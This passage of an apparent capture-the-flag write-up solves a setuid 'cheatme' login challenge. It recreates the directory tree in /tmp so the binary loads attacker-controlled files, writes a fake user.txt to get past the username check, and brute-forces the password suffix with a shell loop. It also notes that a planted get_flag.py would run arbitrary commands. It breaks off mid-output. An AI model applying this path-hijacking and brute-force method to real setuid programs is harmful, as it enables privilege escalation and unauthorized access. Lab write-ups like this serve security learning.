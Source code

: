 Ok let's plan an attack:
1. We have to replicate the original environment because there are many relevant files that are either loaded or executed with relative paths.
2. We can bypass the username check by adding our own username in the `user.txt` file in the replicated environment.
3. We can bypass the password by providing the string `ContestChallenge-XXXXX` where XXXXX is a number.
4. We can run any command by creating `get_flag.py` with arbitrary content. Or we can run the original file if we want.

Let's do this. First, let's see the original environment:
```bash
cheatme@pwnssh14-01-contest13:~/problem/login$ ls -l
total 28
-r-s--sr-x 1 authenticated authenticated 9728 May 26 18:32 cheatme
-r-------- 1 authenticated authenticated   43 May 24 23:58 flag.txt
-r-x------ 1 authenticated authenticated 1728 May 24 23:58 get_flag.py
-r--r--r-- 1 authenticated cheatme        490 May 24 23:58 head
-r-------- 1 authenticated authenticated   17 May 24 23:58 user.txt

```
`cheatme` is setuid `authenticated:authenticated`. All the other files are either self-explanatory or have been described before.

Let's re-create the environment:
```bash
cheatme@pwnssh14-01-contest13:~$ mkdir /tmp/...
cheatme@pwnssh14-01-contest13:~$ cd /tmp/...
cheatme@pwnssh14-01-contest13:/tmp/...$ mkdir -p problem/login
cheatme@pwnssh14-01-contest13:/tmp/...$ cd problem/login/
cheatme@pwnssh14-01-contest13:/tmp/.../problem/login$ echo admin>user.txt
cheatme@pwnssh14-01-contest13:/tmp/.../problem/login$ printf "admin\nContestChallenge-XXXXX\n" | ~/problem/login/cheatme 
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
```

Ok the user bypass works. The password is of course wrong, as we have to find the right numbers that validate all the checks. To do this we can just bruteforce the number:
```bash
cheatme@pwnssh14-01-contest13:/tmp/.../problem/login$ for a in $(seq 10000 99999); do echo $a; printf "admin\nContestChallenge-$a\n" | ~/problem/login/cheatme; done
10000
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10001
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10002
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10003
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10004
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10005
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
```
